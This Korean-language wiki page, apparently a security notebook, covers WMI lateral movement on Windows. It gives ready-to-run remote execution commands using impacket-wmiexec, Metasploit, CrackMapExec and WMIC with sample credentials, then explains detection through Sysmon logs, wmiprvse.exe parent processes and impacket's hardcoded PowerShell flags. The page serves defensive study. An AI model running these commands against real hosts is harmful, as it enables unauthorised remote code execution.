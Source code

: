 # WMI

WMI (Windows Management Instrumentation)은 1996년 개발된 윈도우 드라이버 모델이다. 주 목적은 다양한 관리 어플리케이션들의 데이터 공유를 위한 인터페이스를 제공하는 것이였다.&#x20;

보안적인 측면에서, 그리고 최근에는 원격 시스템의 코드 실행 및 프로세스 실행을 위해서 많이 쓰인다. 원격 시스템에 처음 접근 할 때는 포트 135를 사용하지만 그 이후에는 높은 번호의 ephemeral 포트가 사용된다.&#x20;

### 전제 조건&#x20;

* 타겟 호스트의 로컬 관리자 권한을 갖고 있는 계정/비밀번호/NTLM해시&#x20;
* 타겟 호스트의 포트 135 접근 가능 여부&#x20;

### 공격&#x20;

{% tabs %}
{% tab title="리눅스" %}
impacket이나 Metasploit등을 이용한다&#x20;

```
# impacket 
impacket-wmiexec '<domain>/<user>:<pass>@<FQDN/IP> -shell-type powershell 
impacket-wmiexec 'pci.choi.local/low:Password123!'@192.168.40.161 -shell-type powershell

# Metasploit 
use auxiliary/scanner/smb/impacket/wmiexec

# CrackMapexec 
cme smb <target> -u <user> -p <pass> -d <domain> --exec-method wmiexec -X whoami
cme smb 192.168.40.150 -u Administrator -p 'Password123!' --exec-method wmiexec -X whoami
```
{% endtab %}

{% tab title="윈도우" %}
따로 툴을 이용할 필요 없이 윈도우에서 제공하는 `wmic.exe` 을 이용한다.&#x20;

```
WMIC.exe /node:<ip> /user:<user> process call create "<process>"

WMIC.exe /node:192.168.40.160 /user:Administrator process call create "notepad.exe"
```
{% endtab %}
{% endtabs %}



### 대응 방안&#x20;

공격자가 사용하는 툴 마다 WMI의 적용방법이 다르지만, 공통적으로 나타나는 현상에 집중한다. 윈도우 호스트에서 직접 `wmic.exe` 프로세스를 이용하건, 리눅스에서 impacket을 이용해 wmiexec.py를 이용하건, 공통적으로 WMI를 이용하는 툴들은 모두 `WmiPrvSE.exe` 라는 프로세스에서 시작된다.&#x20;

![WmiPrvSe.exe에서 시작된 cmd.exe와 powershell.exe 프로세스 체인](<../.gitbook/assets/image (1) (1) (1).png>)

`eventvwr.exe` 를 실행 한 뒤 시스몬 로그들을 확인해보면 공격자가 WMI로 접근을 한 뒤, 첫 명령어를 치자마자 시스몬 아이디 1 - Process Create가 로그된 것을 볼 수 있다.&#x20;

![](../.gitbook/assets/wmi.png)

눈여겨 볼 것은 부모 프로세스로 `wmiprvse.exe` 프로세스가 실행됐다는 것, 그리고 커맨드라인이 심상치 않다는 점이다. base64를 디코딩 해보면&#x20;

```
$ProgressPreference="SilentlyContinue";whoami
```

가 나온다. 앞의 플래그들 또한 `-NoP (노 프로필), -noL (노 로고), -sta (싱글 쓰레드 아파트먼트), -NonI (노 인터렉티브), -W (윈도우 - Hidden)` 등의 악성코드가 자주 사용하는 플래그들이 보인다.&#x20;

따라서 WMI 횡적이동을 탐지하고 대응하기 위해선 다음과 같은 로직들이 필요하다.&#x20;

1. 포트 135 접근 이후 ephemeral 포트로 접근하며&#x20;
2. 타겟 호스트의 로컬 관리자 권한이 있는 유저가&#x20;
3. 부모 프로세스는 `wmiprvse.exe`, 자식 프로세스는 `cmd.exe` 혹은 `powershell.exe` 을 생성하며
4. 최종 실행되는 커맨드라인에 수상한 플래그들이 들어가 있을 경우&#x20;

### 대응 방안 - 주의점&#x20;

WMI 또한 툴 마다 구현이 다르기 때문에 특정 플래그를 하드코딩해 탐지/대응 하는 것은 옳지 않다. 예를 들어 위 로그의 최종 커맨드 라인인 `cmd.exe /Q /c powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc` 은 impacket에 [하드코딩 된 플래그](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py#L127-L129)들이다.&#x20;

```
self.__shell = 'cmd.exe /Q /c '
self.__shell_type = shell_type
self.__pwsh = 'powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc '
```

공격자들은 언제나 이런 하드코딩 된 플래그를 바꿀 수 있고, impacket이 아닌 다른 툴들은 다르게 WMI를 구현할 수 있기 때문에 하드코딩 기반의 탐지/대응 방안은 1개의 툴은 막더라도 다른 툴들은 못 막을 수 있으니 이 점을 유의한다.&#x20;

### 레퍼런스

{% embed url="https://www.elastic.co/guide/en/security/current/wmi-incoming-lateral-movement.html" %}

{% embed url="https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#wmiexecpy" %}

